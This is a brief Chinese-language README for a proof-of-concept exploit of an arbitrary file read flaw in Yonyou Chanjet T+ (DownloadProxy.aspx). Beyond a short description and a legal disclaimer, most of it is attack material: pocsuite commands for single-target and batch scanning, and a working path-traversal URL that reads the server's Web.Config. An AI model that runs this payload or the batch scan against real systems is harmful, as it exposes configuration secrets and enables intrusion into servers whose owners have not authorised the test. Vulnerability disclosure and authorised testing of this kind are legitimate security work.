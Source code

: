 #  用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 1.漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 2.漏洞影响

用友 畅捷通T+

## 3.漏洞检测

单个检测：pocsuite -r "T+.py" -u url

批量检测：pocsuite -r "T+.py" -f 1.txt --verify

## 4.漏洞验证

```
poc：/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。